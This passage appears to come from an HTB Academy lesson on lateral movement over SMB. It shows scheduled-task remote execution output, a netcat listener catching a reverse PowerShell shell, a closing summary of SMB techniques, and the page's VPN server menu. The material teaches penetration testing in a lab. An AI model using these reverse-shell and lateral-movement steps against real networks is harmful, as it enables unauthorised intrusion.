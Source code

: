 [!] This will work ONLY on Windows &gt;= Vista
[*] Creating task \tEQBXeQm
[*] Running task \tEQBXeQm
[*] Deleting task \tEQBXeQm
[*] Attempting to read ADMIN$\Temp\tEQBXeQm.tmp
</code></pre>
<p>We have successfully established a reverse shell connection in our attack box:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 50027

PS C:\Windows\system32&gt; 
</code></pre>
<h2>Conclusion</h2>
<p><code>Server Message Block (SMB)</code> is a great protocol for lateral movement within a network. Several advanced techniques exist for achieving remote command execution, service manipulation, and registry access on remote systems, each with unique advantages and methods to avoid detection.</p>
<p>To perform lateral movement using SMB, there are multiple methods, many of which are detailed in this section. In cases where services or named pipes are unavailable, we may need to rely on specific methods such as Scheduled Tasks to acomplish our goals. Understanding these various methods helps us think creatively and adaptively during a penetration test.</p>
<p>In addition, another way to use <code>SMB</code> for lateral movement is through share folders. In the <a href="https://academy.hackthebox.com/course/preview/ntlm-relay-attacks">NTLM Relay module</a>, we covered how we can use different types of files to provoke authentication and perform lateral movement.</p>
<p>In the next section we will focus on WMI for lateral movement.</p>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 6 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt; &lt;span class='recommended'&gt; &lt;img src='/images/sparkles-solid.svg'/&gt;Recommended&lt;/span&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-success '&gt;low Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="29" value="17">US Academy 6</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 1 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="32" value="4">US Academy 1</option>
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 5 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="32" value="16">US Academy 5</option>